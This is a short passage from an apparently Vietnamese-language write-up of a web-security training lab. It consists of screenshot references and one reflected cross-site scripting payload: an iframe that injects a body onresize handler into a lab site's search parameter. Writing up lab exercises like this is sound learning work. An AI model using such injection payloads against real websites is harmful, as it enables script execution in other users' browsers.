![](./img_xss/xss-18-6.png)

![](./img_xss/xss-18-7.png)

![](./img_xss/xss-18-8.png)

- Từ những điều trên, tôi đã thử viết script như sau `<iframe src="https://0a2a00d004e11121c22bc55f004800dc.web-security-academy.net/?search=%22%3E%3Cbody%20onresize=print()%3E" >`
